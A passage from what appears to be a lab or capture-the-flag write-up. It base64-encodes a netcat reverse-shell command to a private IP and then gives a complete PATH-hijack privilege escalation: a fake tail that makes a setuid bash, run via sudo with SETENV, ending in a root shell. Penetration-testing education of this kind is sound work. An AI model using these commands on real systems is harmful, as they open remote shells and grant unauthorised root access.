 ```echo ‘nc -e /bin/bash 192.168.1.9 4444’ | base64```
<img width="1455" height="270" alt="image" src="https://github.com/user-attachments/assets/6f116e30-c556-4008-b742-9c195d9ddfb2" />




We can run check_syslog.sh as root
Script Analysis :  ```cat /usr/bin/check_syslog.sh```



<img width="1125" height="144" alt="image" src="https://github.com/user-attachments/assets/12bac60b-661b-42d3-9e04-b0f29f45d066" />




That script is ripe for a PATH hijack exploit. Since /usr/bin/check_syslog.sh runs tail without a full path and we have SETENV privileges, we can craft a malicious tail binary and escalate to root.




Educational Insight:
Misconfigured scripts with elevated privileges are prime targets for PATH hijacking. This phase involves identifying such weaknesses to gain root access.



**7. Actions on Objectives**



Objective: Escalate privileges



Create a Malicious Binary : 

```
echo '#!/bin/bash' > /tmp/tail
echo 'cp /bin/bash /tmp/rootbash' >> /tmp/tail
echo 'chmod +s /tmp/rootbash' >> /tmp/tail
chmod +x /tmp/tail
sudo PATH= /tmp:$PATH /usr/bin/check_syslog.sh
/tmp/rootbash -p
```


<img width="1125" height="284" alt="image" src="https://github.com/user-attachments/assets/0a0d74c9-53aa-49ff-8bb7-e940970a63d9" />



Check Root’s Home Directory’ : ```ls -la /root```



<img width="1125" height="629" alt="image" src="https://github.com/user-attachments/assets/8cf50f8c-5c6c-4d98-b0ec-c85885655fd7" />



```